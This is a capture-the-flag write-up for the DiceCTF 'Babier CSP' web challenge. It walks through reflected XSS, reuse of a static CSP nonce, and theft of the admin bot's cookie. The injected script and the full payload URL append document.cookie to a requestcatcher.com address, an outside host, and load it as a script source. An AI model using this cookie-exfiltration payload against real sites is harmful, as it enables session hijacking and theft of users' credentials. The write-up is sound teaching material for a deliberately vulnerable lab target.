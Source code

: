 # DiceCTF-Writeup
# Babier CSP Challenge by notdeghost
([TL;DR at the bottom](#TL;DR)
## Getting XSS
When you visit the [challenge website](https://babier-csp.dicec.tf/) you are welcomed by a link with the name 'View Fruit'.
When clicked, it adds the get paramater ?name to the url with the value of a random Fruit.

The `name` value is just echoed back into the sites html. The challenge description also tells you, that your objective is to steal the admins
cookies which greatly hints towards a cross site scripting attack (XSS) -- So let's do that!

When you try to access `<site>?name=<script>alert(1)</script>` , nothing happens though. If you have a look at the main sites html using burp to intercept to
the request, you see that, the "View Fruit" link works with javascript and it has a nonce value set!

![Burp request intercept](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/burp_babier_csp.png)

Now let's add this nonce to our payload:
`https://babier-csp.dicec.tf/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">alert(1)</script>`
(From now on I will just show you the payload, not the full url)

An alert box pops up and the XSS worked!

## How to steal the Cookie

This is the part I struggled with.
The main idea is to add the cookies (found in `document.cookie`) to a get request to a service you can inspect the requests arriving.
I decided to go with [requestcatcher](https://requestcatcher.com/).
If we try to fetch a get request out of the browsers debug console from the target website to our bin, nothing arrives and fetch returns "rejected".

Now was the time I had a look into the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) (content security policy), which from my understanding tells the browser who it may make get requests to out of the websites context.

For the challenge website this header is set to following:
`Content-Security-Policy: default-src none; script-src 'nonce-LRGWAXOY98Es0zz0QOVmag==';`

This means first disallow every outgoing request and only allow requests for a script source, if the script has the nonce value = <nonce-value> set.

So we may fetch a script source to where ever we want to!

```html
</h1>                                             <= close open h1 tag from site html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">         <= open script tag with nonce value so it executes
var head=document.getElementsByTagName('head')[0];<= get a reference to the html head element on the page
var script= document.createElement('script');     <= create a new script tag
script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie))); <= setting the new script-tags src to our requestcatcher
                                                                                                          with the cookies appended as a get parameter
script.nonce="LRGWAXOY98Es0zz0QOVmag==";          <= setting the new script tag`s nonce so it will execute too
head.appendChild(script);                         <= finally appending it to the documents head, which will automatically execute it
</script>
</h1>
```

When the our new script tag is then executed, it want's to and is allowed to request it's "source" which in fact is our requestbin and we after we send the following link to the bot, a GET request will pop up in our bin.
Link: `https://babier-csp.dicec.tf?name=</h1><script nonce="LRGWAXOY98Es0zz0QOVmag==" >var head=document.getElementsByTagName('head')[0]; var script= document.createElement('script');script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie)));script.nonce="LRGWAXOY98Es0zz0QOVmag==";head.appendChild(script);</script></h1>`

The incoming request:
![Request](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/request_catcher_request.png)

So the GET request we caught 
`GET /?flag=%22secret=4b36b1b8e47f761263796b1defd80745%22 HTTP/1.1`
reveals "4b36b1b8e47f761263796b1defd80745" to be our token. 

If we have a quick look into the index.js source code we could download from the diceCTF website, this part 

```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
reveals how to move on.
Let's plug our token into the url like so `/4b36b1b8e47f761263796b1defd80745`

The new pages source code:
```

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

```
Hey!
`dice{web_1s_a_stat3_0f_grac3_857720}` is our flag!
<br>

## TL;DR
Add nonce value to script tag and fetch script src with cookie appended to circumvent the CSP.
<br>
Thanks for reading and hope you learned something new,<br>
LightStack<br>




